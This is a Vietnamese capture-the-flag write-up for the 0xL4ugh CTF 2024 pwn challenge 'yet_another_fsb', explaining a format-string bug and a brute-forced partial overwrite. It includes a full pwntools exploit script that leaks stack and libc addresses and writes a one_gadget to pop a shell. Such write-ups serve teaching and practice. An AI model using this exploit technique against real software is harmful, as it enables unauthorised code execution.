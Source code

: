 ```yaml
--- 
title: 0xL4ugh CTF 2024
date: 2025-03-06 00:00:00 +0800
categories: [writeup]
tags: [pwn]
author: "kuvee"
layout: post
---
```


## yet_another_fsb





checksec : ![image](https://hackmd.io/_uploads/rJuQ_sCrJg.png)


- 1 bài fsb brutefoce , nhìn vào ta thấy được có 1 bug fsb , tuy nhiên nếu muốn loop vô hạn thì ta phải sửa được giá trị v5 != 0 , và đây có lẽ là điều khó khăn nhất ở bài này 
![image](https://hackmd.io/_uploads/BkGM_jRH1e.png)

- đây là stack của ta tại ```printf```

![image](https://hackmd.io/_uploads/ByZ0djASke.png)

- ở đây ban đầu mình nghĩ là cần sử dụng 1 con trỏ stack(A) đang trỏ đến địa chỉ stack khác(B) , lúc này ta cần ghi địa chỉ B thành địa chỉ chứa giá trị cần ghi ("C") , sau đó ghi C thành giá trị cần ghi

nó sẽ như thế này : 
```
A->B
C->value

A->C
cuối cùng là ghi C thành giá trị khác 0 
```

- tuy nhiên vì chỉ được ghi 1 lần nên cách này có vẻ khá rắc rối , ta cần dùng cách khác , nếu để ý kĩ thì 4bit cuối cùng của giá trị cần ghi luôn là 'e' và offset thứ 21 ta có thể control được , vậy ở đây ta sẽ overwrite 1 byte của offset21 sao cho 4bit cuối sẽ luôn là e -> ta sẽ bruteforce 4 bit (2^4 = 16) , tỉ lệ sẽ là 1/16

```
giá trị cần ghi : 0x7fffffffd8be
offset 21 : 0x00007fffffffd888
```
![image](https://hackmd.io/_uploads/SJROooAB1e.png)

- bruteforce xong rồi thì phần còn lại ta có thể leak_stack hoặc overwrite GOT (bài này là RELRO 1 phần) 

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./yet_another_fsb_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
HOST = "775be8f93719361fa898224c7cf5d114.chal.ctf.ae"
p = remote(HOST, 443, ssl=True, sni=HOST)
#gdb.attach(p,gdbscript='''
#            b*0x00000000004011ea
#            b*0x00000000004011ef
#           ''')
input()
sleep(1)
payload  = b'%254c%27$hhn'
payload += b'|%43$p|%41$p|'
payload += b'\xfe' * (0xa9 - len(payload))
p.send(payload)
sleep(0.5)
p.recvuntil(b'|')
stack = int(p.recvuntil(b'|')[:-1], 16)
stack_write = stack - 0x120
log.info(f"stack {hex(stack)}")

libc.address = int(p.recvuntil(b'|')[:-1], 16) - (0x7f7be8cf9c88 - 0x7f7be8cd4000)
log.info(f"libc: {hex(libc.address)}")

one_gadget = 0xff2ef + libc.address
pop_rdi = 0x00000000000fd8c4+ libc.address
system = libc.sym.system
bin_sh = next(libc.search(b'/bin/sh\x00'))
write = {
        stack_write:one_gadget,
        stack_write-10:0
        }
payload = fmtstr_payload(6,write,write_size='short')
p.sendline(payload)
p.interactive()
```

![image](https://hackmd.io/_uploads/rkUFD1kIyx.png)

